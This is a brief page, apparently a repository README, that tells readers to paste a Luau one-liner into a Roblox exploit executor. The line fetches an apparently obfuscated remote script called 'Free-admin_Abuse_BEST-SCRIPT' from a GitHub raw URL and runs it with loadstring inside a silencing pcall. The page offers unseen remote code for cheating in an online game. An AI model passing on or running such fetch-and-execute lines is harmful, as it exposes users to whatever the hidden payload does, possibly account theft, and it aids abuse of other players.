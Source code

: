 COPY THIS SCRIPT AND PASTE IT INTO YOUR ROBLOX EXPLOIT
```Luau
pcall(function()
loadstring(game:HttpGet('https://raw.githubusercontent.com/Roman304010/Free-admin_Abuse_BEST-SCRIPT/refs/heads/main/obf_fa051e666ec878ea.lua', true))()
end)
```
